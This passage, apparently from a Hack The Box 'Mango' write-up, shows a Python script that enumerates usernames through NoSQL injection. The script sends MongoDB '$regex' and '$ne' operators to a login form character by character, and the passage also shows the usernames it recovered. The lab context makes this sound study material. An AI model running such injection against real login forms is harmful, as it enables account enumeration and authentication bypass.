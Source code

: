 ```python
        payload = c

        while True: # NEVER DO THAT IN REAL WORLD PROGRAMMING

            charset = " " + ascii_lowercase # space + lowercases

            for c in charset: # internal loop, in the first time the string payload = 'a '

                payload=username + c
                print("\r"+payload,flush=False,end="")

                data={"username[$regex]":payload+".*","password[$ne]":"admin","login":"login"}

                if sendrequest(data):
                
                    print("\r"+payload,flush=True,end="")
                    username = username + c  # save the string witch match to satus code
                    break
            
            # to leave while true
            data={"username[$regex]":payload + "$","password[$ne]":"admin","login":"login"}
            
            if sendrequest(data):
                break
            
            # to leave when internal loop achieve the last letter that is z
            if c == 'z':
                break
        print(" ")
  
def main():
    payload()

if __name__ == "__main__":
    main()    

```



When we run this  script, we get the usernames:

```bash
dumbland () hgfs/hackthebox/mango :: python3 exploit.py
admin
---------------------SNIP -------------------------------------------------------------
hz
in
jz
kz
lz
mango
ngo
---------------------SNIP -------------------------------------------------------------
```
